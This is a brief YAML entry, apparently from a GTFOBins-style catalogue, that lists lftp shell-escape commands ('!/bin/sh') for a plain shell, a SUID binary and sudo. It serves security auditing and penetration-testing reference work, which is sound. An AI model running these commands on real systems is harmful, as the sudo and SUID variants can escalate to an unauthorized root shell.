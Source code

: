 ```yaml
---
functions:
  shell:
    - code: lftp -c '!/bin/sh'
  suid-limited:
    - code: ./lftp -c '!/bin/sh'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
```

